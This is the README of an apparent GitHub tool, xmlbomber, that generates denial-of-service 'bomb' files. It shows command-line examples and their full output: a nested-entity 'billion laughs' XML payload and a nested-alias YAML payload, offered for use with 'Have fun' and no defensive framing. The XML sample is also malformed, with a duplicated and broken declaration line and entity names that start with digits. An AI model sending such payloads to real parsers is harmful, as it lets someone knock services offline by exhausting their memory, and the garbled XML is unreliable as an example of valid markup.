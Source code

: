 ***

<h1 align="center">
	<b>xmlbomber</b>
</h1>
<h3 align="center">
	<i>script to create a XML or YAML bomb</i>
</h3>

Example:  
``` 
$ xmlbomber.py -e 7 -r 12 -n "hi" -c "boom" xml
```
```xml
<?xml version="1.0">
<?xml version="1.0">
<!DOCTYPE hi [
  <!ENTITY 0 "boom">
  <!ENTITY 1 "&0; &0; &0; &0; &0; &0; &0; &0; &0; &0; &0; &0;">
  <!ENTITY 2 "&1; &1; &1; &1; &1; &1; &1; &1; &1; &1; &1; &1;">
  <!ENTITY 3 "&2; &2; &2; &2; &2; &2; &2; &2; &2; &2; &2; &2;">
  <!ENTITY 4 "&3; &3; &3; &3; &3; &3; &3; &3; &3; &3; &3; &3;">
  <!ENTITY 5 "&4; &4; &4; &4; &4; &4; &4; &4; &4; &4; &4; &4;">
  <!ENTITY 6 "&5; &5; &5; &5; &5; &5; &5; &5; &5; &5; &5; &5;">
  <!ENTITY 7 "&6; &6; &6; &6; &6; &6; &6; &6; &6; &6; &6; &6;">
  <!ENTITY start "&7;">
]>
<hi>&start;</hi>
```
***
```
$ xmlbomber.py -e 5 -r 7 -c "boom" yaml
```
```yaml
0: &0 ["boom", "boom", "boom", "boom", "boom", "boom", "boom"]
1: &1 [*0, *0, *0, *0, *0, *0, *0]
2: &2 [*1, *1, *1, *1, *1, *1, *1]
3: &3 [*2, *2, *2, *2, *2, *2, *2]
4: &4 [*3, *3, *3, *3, *3, *3, *3]
5: &5 [*4, *4, *4, *4, *4, *4, *4]

```

### Have fun